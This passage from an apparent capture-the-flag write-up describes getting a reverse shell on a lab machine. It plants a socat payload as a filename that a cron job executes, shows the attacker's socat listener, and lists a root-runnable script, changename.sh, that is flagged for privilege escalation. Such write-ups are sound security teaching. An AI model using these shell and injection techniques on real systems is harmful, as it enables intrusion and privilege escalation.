 This time, instead of executing the file myself, I just wait for the cronjob to execute it for me under the context of Guly.

On my attacking machine, I kill the second Apache shell and create a new socat listener. On the victim machine, I create that socat payload filename. I wait for the cronjob. Within 3 minutes, I have a shell as Guly.

{% highlight plaintext %}
root@kali:~# socat file:`tty`,raw,echo=0 tcp-listen:4444  
[guly@networked ~]$ 
{% endhighlight %}

And I can grab user.txt.

{% highlight plaintext %}
[guly@networked ~]$ cat user.txt
526c############################
{% endhighlight %}

# Another exploitable script: changename.sh

I run `sudo -l` to see everything Guly is allowed to run as root, and I find another exploitable script to play with.

{% highlight plaintext %}
[guly@networked /]$ sudo -l
<--- snip --->
User guly may run the following commands on networked:
    (root) NOPASSWD: /usr/local/sbin/changename.sh
{% endhighlight %}

This is changename.sh:

{% highlight bash %}
#!/bin/bash -p
cat > /etc/sysconfig/network-scripts/ifcfg-guly << EoF
DEVICE=guly0
ONBOOT=no
NM_CONTROLLED=no
EoF

regexp="^[a-zA-Z0-9_\ /-]+$"

for var in NAME PROXY_METHOD BROWSER_ONLY BOOTPROTO; do
        echo "interface $var:"
        read x
        while [[ ! $x =~ $regexp ]]; do
                echo "wrong input, try again"
                echo "interface $var:"
                read x
        done
        echo $var=$x >> /etc/sysconfig/network-scripts/ifcfg-guly
done
  
/sbin/ifup guly0
{% endhighlight %}
